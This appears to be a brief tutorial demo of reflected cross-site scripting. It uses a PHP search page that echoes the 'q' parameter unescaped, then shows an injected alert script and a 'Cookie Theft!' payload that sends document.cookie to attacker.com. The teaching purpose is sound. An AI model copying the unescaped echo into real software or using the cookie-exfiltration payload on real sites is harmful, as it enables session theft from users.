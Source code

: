 **demo**

`https://google.com/search?q=<search term>`
```html
<html>
<title>Search Results</title>
<body>
	<h1>Results for <?php echo $_GET["q"] ?></h1>
</body>
</html>
```


`https://google.com/search?q=apple`
```html
<html>
<title>Search Results</title>
<body>
	<h1>Results for <?php echo $_GET["q"] ?></h1>
</body>
</html>
```
Sent to Browser
```html
<html>
<title>Search Results</title>
<body>
	<h1>Results for apple</h1> 
</body>
</html>
```

**Embedded Script**

`https://google.com/search?q=<script>alert(“hello”)</script>`
```html
<html>
<title>Search Results</title>
<body>
	<h1>Results for <?php echo $_GET["q"] ?></h1>
</body>
</html>
```
Sent to Browser
```html
<html>
<title>Search Results</title>
<body>
	<h1>Results for <script>alert(“hello")</script></h1> 
</body>
</html>
```

**Cookie Theft!**

`https://google.com/search?q=<script>…</script>`
```html
<html>
	<title>Search Results</title>
	<body>
		<h1>Results for  
		<script>
			window.open(“http:///attacker.com?”+cookie=document.cookie)
		</script>
		</h1> 
	</body>
</html>
```
